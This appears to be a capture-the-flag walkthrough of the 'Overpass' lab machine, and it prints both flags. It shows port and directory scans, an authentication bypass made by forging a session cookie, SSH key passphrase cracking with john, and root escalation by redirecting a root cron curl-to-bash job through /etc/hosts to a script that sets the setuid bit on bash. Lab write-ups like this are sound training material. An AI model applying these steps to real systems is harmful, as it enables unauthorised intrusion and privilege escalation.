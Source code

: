 Walkthrough about Overpass1

Oct 13, 2021
---------------------------------------------

Hack the machine and get the flag in user.txt
thm{65c1aaf000506e56996822c6281e6bf7}


Escalate your privileges and get the flag in root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}

---------------------------------------------

First we did rustscan and we discover 2 ports that are open

Open 10.10.154.234:22
Open 10.10.154.234:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-13 11:51 PST
Initiating Ping Scan at 11:51
Scanning 10.10.154.234 [2 ports]
Completed Ping Scan at 11:51, 0.27s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:51
Completed Parallel DNS resolution of 1 host. at 11:51, 0.06s elapsed
DNS resolution of 1 IPs took 0.06s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 11:51
Scanning 10.10.154.234 [2 ports]
Discovered open port 22/tcp on 10.10.154.234
Discovered open port 80/tcp on 10.10.154.234
Completed Connect Scan at 11:51, 0.27s elapsed (2 total ports)
Nmap scan report for 10.10.154.234
Host is up, received syn-ack (0.27s latency).
Scanned at 2021-10-13 11:51:48 PST for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.67 seconds


-----------------------------------------------

Then we did use feroxbuster to find some hidden directories in the site.
301        0l        0w        0c http://10.10.203.16/img
301        0l        0w        0c http://10.10.203.16/index.html
301        0l        0w        0c http://10.10.203.16/downloads
301        0l        0w        0c http://10.10.203.16/img/index.html
301        0l        0w        0c http://10.10.203.16/aboutus
301        0l        0w        0c http://10.10.203.16/downloads/index.html
301        0l        0w        0c http://10.10.203.16/aboutus/index.html
301        2l        3w       42c http://10.10.203.16/admin
200       40l       93w     1525c http://10.10.203.16/admin.html
301        0l        0w        0c http://10.10.203.16/admin/index.html

------------------------------------------------

Go navigate the website with the IP Add and port 80 which is http,
Then we did find and downloaded some files.

overpass.go
overpassLinux          ## which is executable
buildscript.sh

------------------------------------------------

We did go to the /admin directory and find some information,
Then it requires some username and passwords.

After a few try, we did some navigation through the source page,
Then found the login.js, which has the code that we can exploit.

"""
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
"""

Then we just use the console to set some cookies.
Cookies.set("SessionToken","anything")

-------------------------------------------------

After that we refreshed the page and get some id_rsa

"""
Since you keep forgetting your password, James, I've set up SSH keys for you.
"""

We can assume the James is the username and we need passkey for ssh connection.

-------------------------------------------------

That's where the ssh2john comes 

"""
❯ python /usr/share/john/ssh2john.py id_rsa > forjohn.txt
"""

We did use ssh2john since the id_rsa is not passkey so we can to convert it,
Then we used john for some decryption.

"""
john --wordlist=/usr/share/wordlists/rockyou.txt forjohn.txt
"""

Username: James
Password: james13

-------------------------------------------------

We did ssh in and did some linpeas.sh
Then we discover the root is using curl to get some script and using it into bash.
And we did also discover that we can modify the /etc/hosts 

-------------------------------------------------

Then we did modify the file IP Address to our tun0,
Then we make some directories and build the script

"""
#!/bin/bash

chmod +s /bin/bash
"""

-------------------------------------------------

And we did wait for the machine to make some set UID to the /bin/bash file
Then we just /bin/bash -p to get the privilege escalation.